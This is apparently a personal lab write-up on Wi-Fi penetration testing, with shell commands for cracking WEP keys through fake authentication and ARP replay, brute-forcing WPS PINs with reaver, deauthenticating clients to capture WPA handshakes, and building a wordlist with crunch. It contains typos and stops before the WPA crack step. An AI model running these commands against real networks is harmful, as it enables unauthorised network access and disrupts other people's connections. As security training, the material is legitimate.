 # Wireless Network Penetration Testing

## Objective

Finding weaknesses in Wifi networks with different encryption types. Finding the weakness of WEP networks.
Finding weak passwords on WPA/WPA2 networks


### Skills Learned

- Finding 5Gz and 2.5Gz wireless networks around me
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch

### Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

>The mode will be Monitor now

1. Finding the 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

2. Find packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

3. Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
4. Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
5. Copy the key and remove the : and that would be the wifi password.

**If the network is not busy we need to follow the steps below: -**

1. We need to capture data from the WEP network and write it in a file.
```bash
 airodump-ng --bssid B4:75:0E:36:6A:9E --channel 11 --write basic_wep wlan0
```
2. We will need to commmunicate with the WEP network by creating a Fake Authentication attack using aireplay-ng
```bash
aireplay-ng --fakeauth 0 -a B4:75:0E:36:6A:9E -h 6E:3D:AC:84:DB:A0 wlan0
```
>the first MAC is the target and the second MAC is the USB adapter.
>If you want to know the permanent MAC address of the USB adapter
```bash
macchanger -s wlan0
Current MAC:   ba:1f:40:bc:19:d4 (unknown)
Permanent MAC: 34:7d:e4:40:83:86 (unknown)
```
3. We need to create an ARP Request preplay attack to generate new packets
```bash
aireplay-ng --arpreplay -b B4:75:0E:36:6A:9E -h ba:1f:40:bc:19:d4 wlan0
```
4. We will then crack the file we created to find the password.
```bash
aircrack-ng arpreplay-01.cap
```

### Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
>Not all routers will be cracked with these steps.

**Method for capturing handshake**

1. Find on 5G and 2.4G networks and find the network with WPA/WPA2 and get the BSSID
```bash
airdump-ng --band abg wlan0
```
2. Write a file via **airodump-ng**.
```bash
airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
3. Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
> The number after the --deauth is the number of packets you want to send to the target.
> The first MAC is the target and the second MAC of the client you want to disconnect (will be under station).

4. The handshake WPA will be saved in the file we created wpa_handshake.cap
5. We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```


￼
